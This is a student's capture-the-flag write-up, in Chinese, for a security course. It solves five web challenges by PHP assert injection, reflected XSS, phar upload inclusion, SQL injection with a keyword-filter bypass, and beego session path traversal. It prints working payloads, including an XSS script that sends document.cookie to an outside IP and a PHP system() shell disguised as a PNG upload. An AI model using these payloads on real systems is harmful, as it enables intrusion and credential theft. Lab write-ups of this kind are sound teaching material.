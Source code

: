 

# 网安Final Project CTF writeup

姚振翮 2016010752

## code

### 原理

* 利用了php中以字符串作为函数执行的漏洞，使php执行额外代码

### 步骤

* 直接访问`/`得到源码，
  * ![image-20200110144201013](assets/image-20200110144201013.png)

* md5破解GET["i"]字符串得到应该是security![image-20200110144332940](assets/image-20200110144332940.png)

* 由源码得使用了uasort，则可如下设计

  * POST["hello"]="assert"
  * POST["word"]="system('cat /flag');"

* 执行访问

  * ```
    import requests
    if __name__ == "__main__":
        data = {
            "hello":"assert",
            "world":"system('cat /flag')"
        }
        sess = requests.session()
        response = sess.post("http://202.112.51.130:28020/?i=security", data=data)
        print(response.text)
    ```

* 得到结果

  ```
  flag{2cc851b3-e636-4748-bc77-a64982a796cb}
  <code>...（后略）
  ```



## MessageBoard

### 原理

* XSS注入，使得对方服务器先访问我的服务器

### 步骤

* 进入主页`/`发现有如下部分![image-20200110145129185](assets/image-20200110145129185.png)

* 对下方的md5碰撞，得到输入字符串

* 输入任意input message，发现被完整复现在send之后的下个页面，猜测可以进行xss注入

* 在我自己的服务器端启动监听![image-20200110145634289](assets/image-20200110145634289.png)

* 设置input message为需要的xss脚本，并重新进行上面步骤

  * XSS脚本

    * ```
      <script>
      var i=document.createElement("link");
      i.setAttribute("rel","prefetch");
      i.setAttribute("href","http://167.172.222.107:29030/?"+document.cookie);
      document.head.appendChild(i);
      </script>
      ```

    * ![image-20200110145833552](assets/image-20200110145833552.png)

* send发送

  * ![image-20200110145857737](assets/image-20200110145857737.png)

* 在监听端发现了flag![image-20200110145942556](assets/image-20200110145942556.png)

## upload

### 原理

* 利用phar数据流的压缩与解压
* 利用访问时GET["poj"]参数的解析漏洞

### 步骤

* 写一个test.php，内容为`<?php system('cat /flag'); ?>`
* 将其用zip方式压缩后，改名为test.png并上传![image-20200110150336382](assets/image-20200110150336382.png)
* 从上传结果页面发现图片地址![image-20200110150411684](assets/image-20200110150411684.png)

* 访问`/?poj=phar://uploads/d6d6ddb88da3287969c3645e13a08e0c8475556a.png/test`
* 拿到flag![image-20200110150543258](assets/image-20200110150543258.png)

## ezsql

### 原理

* 利用sql注入

### 步骤

* 进入主页，发现url中有可能有与数据库相关参数，尝试`http://202.112.51.130:28036/?inject=1' or 1=1;`，发现所有数据都列出，从而猜测可能可以进行sql注入![image-20200110151006337](assets/image-20200110151006337.png)
* 增加`show tables;`得到数据库内的表
  * ![image-20200110151052652](assets/image-20200110151052652.png)

* 尝试`select`发现被过滤，尝试用分割方法绕过
  * 增加``execute immediate concat("sel","ect * from `42`"); ``
    * 拿到flag：
      * ![image-20200110151233265](assets/image-20200110151233265.png)

## gogogo

### 原理

* 利用beego 1.7.2的会话管理漏洞:不过滤`../`

### 工具

* Burp Suite

### 步骤

* 开启BS，设置代理，先不拦截，正常通信

* 初始页面`/`![image-20200110140407785](assets/image-20200110140407785.png)

* 输入不存在的url`/akjdshfkljahsfkj`，确认框架为beego 1.7.2![image-20200110140445618](assets/image-20200110140445618.png)

* 进入注册页面注册用户abcde`/register`![image-20200110140635470](assets/image-20200110140635470.png)

* 登录成功![image-20200110140802882](assets/image-20200110140802882.png)

* 发现UID为2，猜测UID为1的是管理员

* 上传一个0byte的“图片”，得到地址

  * ![image-20200110140948860](assets/image-20200110140948860.png)

  * ```
    the avatar saved to /go/src/github.com/checkin/website/static/img/avatar/SqWEAjkKvvoRGRoAuIga.png
    ```

* 退出登录

* 根据之前抓包前一次登录的cookie，设置修改规则

  * 之前的cookie![image-20200110141232866](assets/image-20200110141232866.png)
  * 设置修改规则
    * ![image-20200110141259115](assets/image-20200110141259115.png)
    * 注意设置gosessionid为：`../../../../../../go/src/github.com/checkin/website/static/img/avatar/SqWEAjkKvvoRGRoAuIga.png`(`../../../../../..`+之前拿到的图片地址)![image-20200110142618337](assets/image-20200110142618337.png)

* BS打开拦截

* 再次登录，登录成功![image-20200110142716700](assets/image-20200110142716700.png)

* BS关闭拦截

* 下载`/static/img/avatar/SqWEAjkKvvoRGRoAuIga.png`，发现已经不是0byte了

* 用python脚本查看其内容，发现有UID，username等内容，判断此时session已经被成功写入

  * `b'\x0e\xff\x81\x04\x01\x02\xff\x82\x00\x01\x10\x01\x10\x00\x00=\xff\x82\x00\x02\x06string\x0c\x05\x00\x03UID\x03int\x04\x02\x00\x04\x06string\x0c\n\x00\x08username\x06string\x0c\x07\x00\x05abcde'`

* 用python脚本修改下载的png

  * 修改username：修改最后5个字符为`b'admin'`
  * 修改UID：修改第62个字符为`b'\x02'`
  * 结果：`b'\x0e\xff\x81\x04\x01\x02\xff\x82\x00\x01\x10\x01\x10\x00\x00=\xff\x82\x00\x02\x06string\x0c\x05\x00\x03UID\x03int\x04\x02\x00\x02\x06string\x0c\n\x00\x08username\x06string\x0c\x07\x00\x05admin'`
  * 存为`session.png`

* 上传图片`session.png`

  * ![image-20200110143453917](assets/image-20200110143453917.png)

  * ```
    the avatar saved to /go/src/github.com/checkin/website/static/img/avatar/AawRKehDWAjpUDNpLQFo.png
    ```

* BS修改cookie修改规则，仿照之前设置gosessionid为刚才上传的图片

  * ![image-20200110143640156](assets/image-20200110143640156.png)

* 直接访问`profile/2/show`

  * 已经成功变成admin
  * ![image-20200110143751895](assets/image-20200110143751895.png)

* 点击Admin Panel，拿到flag![image-20200110143849288](assets/image-20200110143849288.png)